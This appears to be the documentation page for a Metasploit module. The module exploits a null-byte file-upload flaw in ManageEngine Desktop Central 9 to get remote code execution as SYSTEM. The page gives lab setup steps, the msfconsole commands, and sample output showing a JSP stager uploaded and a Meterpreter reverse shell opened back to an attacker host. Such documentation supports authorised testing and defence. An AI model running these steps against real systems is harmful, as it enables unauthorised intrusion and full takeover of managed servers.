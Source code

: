 ## Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null bye at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM. This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file 'rdslog0.txt'.
       
## ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location.It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.



## Prerequisites


1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build 90109 and 91084. You can find the archive here: http://archives.manageengine.com/desktop-central/
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.


## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```


##Sample Output

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```


